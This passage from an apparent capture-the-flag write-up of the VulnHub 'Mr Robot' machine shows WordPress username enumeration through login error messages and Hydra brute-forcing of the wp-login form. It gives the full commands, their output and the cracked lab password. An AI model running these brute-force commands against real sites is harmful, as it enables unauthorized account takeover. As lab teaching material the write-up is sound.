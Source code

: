 ### Wordpress

While trying out some values in the `wordpress` login page I noticed something peculiar. It prints out the message `ERROR: Invalid username.`

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/mrrobot/user.png){: .align-center}

We can try brute forcing the username using the list we downloaded to find a valid user. But the list is too damn big. But after going through the list a bit, I found that there are duplicate values. We can sort and get the unique values and see how many do we have.

```bash
kali@kali:~/Desktop/vulnhub/mrrobot$ sort fsocity.dic | uniq | tee u_fsocity.dic | wc -l
11451
```
Now we just have 11k values and its much easier. 


### Hydra
We can use the custom message to find a valid username. The password we use doesn't matter as we are just trying to find a valid user.

```bash
kali@kali:~/Desktop/vulnhub/mrrobot$ hydra -L newlist -p mypassword mrrobot.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-09 06:40:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://mrrobot.com:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username
[STATUS] 1896.00 tries/min, 1896 tries in 00:01h, 9556 to do in 00:06h, 16 active
[STATUS] 1620.67 tries/min, 4862 tries in 00:03h, 6590 to do in 00:05h, 16 active
[80][http-post-form] host: mrrobot.com   login: elliot   password: mypassword
[80][http-post-form] host: mrrobot.com   login: Elliot   password: mypassword
[80][http-post-form] host: mrrobot.com   login: ELLIOT   password: mypassword
```

We have got a valid user. Now bruteforce the password using this username and the sorted list.

```bash
kali@kali:~/Desktop/vulnhub/mrrobot$ hydra -l elliot -P newlist mrrobot.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-09 06:46:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://mrrobot.com:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered
[STATUS] 687.00 tries/min, 687 tries in 00:01h, 10765 to do in 00:16h, 16 active
[STATUS] 737.33 tries/min, 2212 tries in 00:03h, 9240 to do in 00:13h, 16 active
[STATUS] 721.43 tries/min, 5050 tries in 00:07h, 6402 to do in 00:09h, 16 active
[80][http-post-form] host: mrrobot.com   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-09 06:54:02
```
